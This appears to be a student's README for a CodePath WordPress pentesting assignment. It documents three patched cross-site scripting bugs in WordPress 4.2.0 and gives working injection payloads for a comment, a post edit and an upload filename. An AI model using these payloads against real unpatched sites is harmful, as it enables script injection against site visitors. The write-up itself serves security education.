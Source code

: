 # codepath-course
Assignment submission repository for Facebook Codepath course

# Project 7 - WordPress Pentesting

Time spent: **3** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID: Unauthenticated Stored Cross-Site Scripting (XSS) #7945
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting
    - Tested in version:
4.2.0
    - Fixed in version: 
4.2.1
  - [ ] GIF Walkthrough: unauth_stored_xss.gif
  - [ ] Steps to recreate: 
  Craft a comment containing the following:
  ```html
<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
  ```
  - [ ] Affected source code:
  MySQL database truncates text fields longer than 64kB
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
2. (Required) Vulnerability Name or ID: Authenticated Stored Cross-Site Scripting (XSS) #8111
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting
    - Tested in version:
    4.2.0
    - Fixed in version:
    4.2.3
  - [ ] GIF Walkthrough: stored_xss.gif
  - [ ] Steps to recreate: 
  As a page editor, edit the text with to include the following HTML:
  ```html
  <a href="[caption code=">]</a><a title=" onmouseover=alert('test')  ">link</a>
  ```
  Navigate to the page and mouseover the link. The script in the link will be executed.
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
3. (Required) Vulnerability Name or ID: Large File Upload Error XSS #8819
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting
    - Tested in version:
    4.2.0
    - Fixed in version: 
    4.2.15
  - [ ] GIF Walkthrough: big_file_xss.gif
  - [ ] Steps to recreate: 
  Create a file larger than the website allows for storage (default is 20MB)
  Rename it to include script in the filename: `Dinosaurs secret life<img src=x onerror=alert(1)>.png`
  Upload the file at `http://wpdistillery.vm/wp-admin/media-new.php` by dragging and dropping it.
  Script executes when the page errors with `... exceeds the maximum upload size for this site.`
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.2/src/wp-includes/js/plupload/handlers.js)
    
## Assets

Custom crafted file `Dinosaurs secret<img src=x onerror=alert(1)>.png`

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright 2018 Spencer Callicott

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
